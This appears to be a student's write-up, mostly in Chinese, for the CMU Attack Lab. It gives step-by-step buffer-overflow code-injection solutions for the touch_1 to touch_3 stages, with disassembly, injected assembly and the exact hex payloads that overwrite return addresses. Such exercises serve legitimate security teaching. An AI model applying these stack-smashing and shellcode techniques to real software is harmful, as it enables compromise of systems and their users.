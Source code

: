 ## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q


## touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过

![](touch1.png)

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

## touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码

![](touch2-injection.png)

```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```

![](touch2.png)

## touch_3
1. 思路与touch_3基本一样，只不过touch_3调用了一个hexmatch()函数，将cookie值解码成ascii字符串(0x59b997fa -> 35 39 62 39 39 37 66 61),我们需要通过injection code将“3539623939376661”存储在touch_3和hexmatch 栈空间接触不到的地方(否则会覆盖我们的字符串)，然后将存储的字符串的地址传递给%rdi, touch_3会把我们存储的字符串与hexmatch生成的cookie值的字符串进行比较，如果相等，touch3就完成了
2. 只要把字符串存在test 函数高地址空间的位置，这样hexmatch就无法overwrite我们存储的字符串，因为stack都是向更低的地址空间方向开辟新的地址
```c
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */ 
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */ if (hexmatch(cookie, sval)) {
          printf("Touch3!: You called touch3(\"%s\")\n", sval);
          validate(3);
      } else {
          printf("Misfire: You called touch3(\"%s\")\n", sval);
          fail(3); 
      }
  exit(0); }
```
```asm
"level3Instruct.txt" 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
48 c7 c7 b8 dc 61 55 c3
35 39 62 39 39 37 66 61
00 00 00 00
```